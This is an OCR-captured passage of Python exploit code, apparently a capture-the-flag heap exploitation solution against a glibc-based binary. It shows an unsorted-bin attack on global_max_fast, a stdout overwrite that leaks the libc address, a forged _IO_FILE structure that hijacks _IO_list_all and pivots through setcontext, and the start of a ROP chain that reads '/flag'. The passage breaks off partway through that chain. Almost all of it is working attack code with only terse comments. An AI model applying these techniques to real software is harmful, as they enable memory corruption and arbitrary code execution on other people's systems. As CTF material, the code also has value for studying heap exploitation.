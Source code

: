 ```python
  #need to bruteforce 1/16 probability
  edit(0x100, p64(0xfbad3c80) + p64(0)*3 + p16(0x5600)) 
  edit(0x128,p16(0x5683))
  edit(0x130,p16(0x5683))
  edit(0x138,p16(0x5683))
  edit(0x140,p16(0x5684))
  edit(0x148, p64(0)*4 + p16(0x48c0))
  edit(0x170, p64(1) + p64(0xffffffffffffffff) + p64(0) + p16(0x6760))
  edit(0x190, p64(0xffffffffffffffff) + p64(0) + p16(0x4780))
  edit(0x1a8,p64(0)*3 + p64(0x00000000ffffffff) + p64(0)*2 + p16(0x1440))


  edit(0x1008,p64(0x91))
  edit(0x1098,p64(0x21))
  edit(0x10b8,p64(0x21))
  free(0x1010)
  edit(0x1018,p16(0x67d0-0x10)) # unsortbin attack global_max_fast
  malloc(0x80)

  edit(0x108,p64(0x17e1))
  edit(0x18e8,p64(0x21))
  edit(0x1908,p64(0x21))
  free(0x110) # modify stdout to mmap+0x100 to leak libc
  r.recv(8)
  libc.address = u64(r.recv(8).ljust(8,"\x00")) - 0x39e683
  print("libc = {}".format(hex(libc.address)))

  IO_str_table = libc.address + 0x0039A090
  IO_str_table = IO_str_table - 0x10
  __morecore_8 = libc.address + 0x39e388 - 0xa0
  print("__morecore-8 = {}".format(hex(__morecore_8))) # bypass setcontext , push rcx ; ret
  setcontext = 0x43565 + libc.address
  print("setcontext = {}".format(hex(setcontext)))
  _IO_FILE = ( p64(0) +
               p64(0xdadaddaaddddaaaa)*3 +
               p64(0) +                     # + 0x20
               p64(0x7fffffffffffffff) +
               p64(0xdadaddaaddddaaaa) +
               p64(0) +                     # + 0x38
               p64((__morecore_8 - 100) / 2) + #  rdi
               p64(0xdadaddaaddddaaaa)*11 +
               p64(libc.address+0x39e508) + # + 0xa8
               p64(0xdadaddaaddddaaaa)*6 +
               p64(IO_str_table) +          # + 0xd8
               p64(setcontext))

  edit(0x3418,p64(0x21))
  edit(0x2008,p64(0x1411))
  free(0x2010)  # modify _IO_list_all to mmap+0x2000
  edit(0x2000,_IO_FILE)
  edit(0x3008,p64(0x1121)) # modify __morecore-8 to mmap+0x3000
  edit(0x4128,p64(0x21))
  free(0x3010)
  pop_rax = libc.address + 0x0000000000036d98
  pop_rdi = libc.address + 0x000000000001feea
  pop_rsi = libc.address + 0x000000000001fe95
  pop_rdx = libc.address + 0x0000000000001b92
  syscall = libc.address + 0x00000000000aa6b5
  buf = libc.address + 0x39d000

  rop = (p64(pop_rax) + p64(0) + # read "/flag" ; open read write
         p64(pop_rdi) + p64(0) +
         p64(pop_rsi) + p64(buf) +
```